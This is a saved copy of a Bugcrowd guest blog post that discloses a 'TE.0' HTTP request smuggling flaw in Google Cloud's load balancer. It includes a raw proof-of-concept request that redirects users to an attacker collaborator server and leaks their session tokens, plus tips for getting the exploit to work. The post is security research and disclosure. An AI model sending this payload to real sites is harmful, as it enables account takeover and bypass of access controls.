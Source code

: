 ```yaml
---
title: "Unveiling TE.0 HTTP Request Smuggling: Discovering a Critical Vulnerability in Thousands of Google Cloud Websites | @Bugcrowd"
source: https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/?__readwiseLocation=
author:
  - Guest Post
published: 2024-07-17
created: 2025-08-12
description: We later discovered we had a powerful exploit affecting thousands of Google Cloud-hosted websites that were using their Load Balancer.
tags:
  - clippings/articles
aliases:
  - TE.0 smuggling vulnerabilities
---
```

# Unveiling TE.0 HTTP Request Smuggling: Discovering a Critical Vulnerability in Thousands of Google Cloud Websites | @Bugcrowd

![](https://www.bugcrowd.com/wp-content/uploads/2024/07/2305048_LevelUp-Unveiling_Opt1_071624.png)

> [!summary]
> The article discusses the discovery of a novel HTTP Request Smuggling vulnerability, dubbed \\"TE.0 HTTP Request Smuggling,\\" by a team of security researchers. This vulnerability, similar to the CL.0 variant but using Transfer-Encoding, was initially found on a major bank's API, allowing for mass 0-click account takeovers by leaking session tokens. The researchers later found that the exploit affected thousands of Google Cloud-hosted websites using their Load Balancer, particularly those configured to default to HTTP/1.1 instead of HTTP/2. This vulnerability allowed bypassing Google IAP (Identity-Aware Proxy) security, undermining Zero Trust principles. The article provides a PoC, testing tips, and outlines the disclosure timeline to Google, which resulted in an $8,500 bounty after some initial miscommunication.

## Introducing: TE.0 HTTP Request Smuggling

We believe the two best ways to come up with new payloads are:

- [https://github.com/narfindustries/http-garden:](https://github.com/narfindustries/http-garden) A #tools  for differential testing and fuzzing of HTTP servers and proxies.
- Bug bounty/VDP spray-and-pray: Adapting existing tools such as [smuggler.py](https://github.com/defparam/smuggler) by [defparam](https://x.com/defparam) to then scan a wide range of targets hoping for hits.

The quickest way to generate a scope to hack on is to use our own [bbscope](https://github.com/sw33tLie/bbscope) tool.

`bbscope bc -E "your_bugcrowd_email" -P "your_bugcrowd_password" -o u | tee bugcrowd-scope.txt`

## The idea

We eventually asked ourselves this question: why is there no `TE.0`?
Essentially, it could function in the same way as the `CL.0` variant but using `Transfer-Encoding` instead.

## The TE.0 PoC

```http
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X  
0
EMPTY_LINE_HERE  
EMPTY_LINE_HERE
```


By sending this request multiple times using `null payloads` in Burp Suite Intruder, we were effectively redirecting live users to our own collaborator server. Conveniently, this also had the side-effect of sending us the users’ session token.

## A wider discovery

We noticed that all the vulnerable targets appeared to be hosted on Google Cloud. Some had the classic `Via: 1.1 google` response header, while others were protected by Google IAP (Identity-Aware Proxy) authentication and returned the `Invalid IAP credentials: empty token` message when accessed without a valid session token

Thanks to the investigation via an affected company, we discovered the issue was within Google Cloud’s Load Balancer.

## Different exploitation techniques

The TE.0 PoC we presented earlier achieves a site-wide redirect to an attacker-controlled domain. This often has a critical impact by itself, but it’s not always the case.

However, those websites could still be exploited by leveraging application-specific gadgets, essentially achieving critical impact every time.

All the techniques used to exploit other types of smuggling attacks can also work with TE.0 smuggling attacks. If you’re unfamiliar, we recommend reading more

## TE.0 testing tips

Here are some things one should consider when testing for TE.0 smugglings according to our own experience:

- The chunk length — in our case having a value of `50` — has to be a hex number according to HTTP/1.1 RFC. Make sure the size is correct and not expressed in decimal format.
- After the final 0, which ends the last chunk in the request, you need two empty lines.
- Make sure and disable automatic content length adjustments so the `Content-Length` header won’t be added before the PoC request is sent.
- Experiment with different HTTP methods. The exploit we showcased in this blog post only worked with the OPTIONS method, as it was failing both with GET and POST.
